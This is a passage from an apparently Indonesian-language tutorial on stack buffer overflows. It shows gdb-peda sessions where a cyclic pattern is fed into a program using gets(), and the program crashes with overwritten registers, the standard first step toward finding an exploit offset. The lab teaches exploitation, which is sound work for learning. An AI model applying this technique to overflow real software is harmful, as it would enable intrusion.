 kemudian menjalankan next instruksi dengan perintah nexti atau ni
selanjutnya paste hasil dari pattern create tanpa '

```bash
gdb-peda$ ni
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

[----------------------------------registers-----------------------------------]
EAX: 0xffffd618 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x804c000 --> 0x804bf14 --> 0x1 
ECX: 0xf7fb55c0 --> 0xfbad2288 
EDX: 0xf7fb689c --> 0x0 
ESI: 0xf7fb5000 --> 0x1d9d6c 
EDI: 0xf7fb5000 --> 0x1d9d6c 
EBP: 0xffffd648 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
ESP: 0xffffd600 --> 0xffffd618 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x80491ee (<foo+48>: add    esp,0x10)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80491e5 <foo+39>: lea    eax,[ebp-0x30]
   0x80491e8 <foo+42>: push   eax
   0x80491e9 <foo+43>: call   0x8049030 <gets@plt>
=> 0x80491ee <foo+48>: add    esp,0x10
   0x80491f1 <foo+51>: nop
   0x80491f2 <foo+52>: mov    ebx,DWORD PTR [ebp-0x4]
   0x80491f5 <foo+55>: leave  
   0x80491f6 <foo+56>: ret
[------------------------------------stack-------------------------------------]
0000| 0xffffd600 --> 0xffffd618 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xffffd604 --> 0xf7fb5000 --> 0x1d9d6c 
0008| 0xffffd608 --> 0xf7e0cb39 (add    ebx,0x1a84c7)
0012| 0xffffd60c --> 0x80491ca (<foo+12>: add    ebx,0x2e36)
0016| 0xffffd610 --> 0xf7fb5000 --> 0x1d9d6c 
0020| 0xffffd614 --> 0xf7fb5000 --> 0x1d9d6c 
0024| 0xffffd618 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0028| 0xffffd61c ("AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080491ee 14     gets(buffer);
gdb-peda$
```

ketik perintah continue supaya program berjalan sampai akhir

```bash
gdb-peda$ continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0xffffd618 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x41414641 ('AFAA')
ECX: 0xf7fb55c0 --> 0xfbad2288 
EDX: 0xf7fb689c --> 0x0 
ESI: 0xf7fb5000 --> 0x1d9d6c 
EDI: 0xf7fb5000 --> 0x1d9d6c 
EBP: 0x31414162 ('bAA1')
```